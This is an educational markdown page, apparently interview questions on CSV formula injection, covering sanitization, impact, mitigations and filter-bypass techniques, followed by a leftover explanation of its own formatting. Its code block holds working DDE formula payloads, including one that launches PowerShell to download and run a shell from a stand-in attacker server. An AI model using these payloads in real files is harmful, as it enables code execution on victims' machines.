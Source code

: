 ## :shield: Sanitization and Validation:
### :memo: What would be an effective method for preventing formula injection in CSV files? Should input be sanitized before being included in the CSV file or after the file is generated? Explain why.
#### :warning: Exploit Techniques:
The candidate should be able to identify that the root cause of CSV injection is improper validation of user input when generating CSV files. Attackers can inject formulas starting with characters like `=`, `+`, `-`, or `@`, which could lead to arbitrary code execution (e.g., spawning a calculator or executing PowerShell scripts).

## :exclamation: Impact Analysis:
###### :bangbang: What are the potential consequences of a successful CSV injection exploit? How might attackers use this to execute arbitrary code on a victim's machine?
**Mitigation Techniques**:  
- Proper sanitization, such as escaping characters used in formulas (`=`, `+`, `-`, `@`).  
- Validating inputs strictly (ensuring no user data can begin with a formula syntax).  
- Restricting the use of potentially dangerous features like Dynamic Data Exchange (DDE).  
- Enforcing security headers (e.g., `X-Content-Type-Options: nosniff`) and validating file extensions (`.csv`).

## :deciduous_tree: Obfuscation Techniques:
###### :mag_right: Discuss the use of techniques such as null character injection or command chaining in CSV injection. How do these techniques help bypass filters or security mechanisms?
CSV injection exploits vulnerabilities in web applications that allow user input to be included in CSV files. Attackers can inject formulas starting with characters like `=`, `+`, `-`, or `@` to execute arbitrary commands (e.g., opening `calc.exe` or downloading malicious payloads). Techniques like **null character injection** and **command chaining** bypass filters by truncating or combining commands in ways that evade detection.

### :zap: Code Example:
```plaintext
=cmd|' /C calc.exe'!A0
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/C calc.exe'!A
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
```

---
:books: **References**:
- [OWASP CSV Injection](https://owasp.org/www-project-top-ten/)
- [OWASP Formula Injection](https://owasp.org/www-community/attacks/Formula_Injection)


### Explanation of the formatting:
1. **Headers and Emojis**: I’ve used emoji icons to visually represent the sections (`:shield:` for "Sanitization and Validation", `:memo:` for "Exploit Techniques", `:exclamation:` for "Impact Analysis", etc.), which can make the content more engaging.
2. **Bold and Italics**: Key terms like "Mitigation Techniques" and "Obfuscation Techniques" are in bold for emphasis.
3. **Code Blocks**: For the code examples, I used a **plaintext** code block (```` ```plaintext ````) to preserve the formatting and make it easier to read on GitHub.
4. **Inline Code Formatting**: Important terms like `=`, `+`, `-`, `@`, and `cmd` are wrapped in inline backticks to highlight them as code.
5. **References Section**: A section for references or further reading links (`:books:`) has been included at the end for completeness.

This structure makes the content more readable and colorful, which is useful for educational or technical documentation on platforms like GitHub.
